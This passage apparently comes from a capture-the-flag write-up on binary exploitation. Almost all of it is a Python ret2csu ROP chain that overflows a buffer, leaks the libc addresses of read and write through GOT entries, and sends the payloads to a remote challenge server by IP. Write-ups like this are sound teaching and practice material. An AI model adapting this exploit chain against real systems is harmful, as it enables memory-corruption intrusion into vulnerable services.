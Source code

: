 After that, we may be able to use `ret2csu` technique to leak the address of both `read` and `write`. 

```
def leak_libc(function_address):
    payload = 'A' * 56 

    payload += p64(lib_csu_pop)
    payload += p64(0x00)            # pop rbx
    payload += p64(0x01)            # pop rbp
    payload += p64(init)            # pop r12
    payload += p64(0x08)            # pop r13 (rdx after lib_csu_mov) 
                                    # How many bytes to write.

    payload += p64(function_address)# pop r14 (rsi)
                                    # Here we'll supply address of 
                                    # GOT entries for read and write.

    payload += p64(0x01)            # pop r15 (edi)
                                    # Write to stdout.

    payload += p64(lib_csu_mov)     # Upper part of libc_csu moving
                                    # moves our values into correct registers.
                                    
    payload += p64(0x00)            # add rsp,0x8 padding
    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15
    payload += p64(write_plt)       # Finally write the leaked address
    payload += p64(main)            # Go to main to repeat the process without
                                    # connecting once again.
    return payload

p = remote('51.254.114.246', 1111)
p.recv(1024)


p.sendline(leak_libc(write_got))

libc_write = u64(p.recv(8))
print("[!] Write lib address libc: " + hex(libc_write))

p.recv(1024)
p.sendline(leak_libc(read_got))
libc_read = u64(p.recv(8))
print("[!] Write lib address libc: " + hex(libc_read))

```

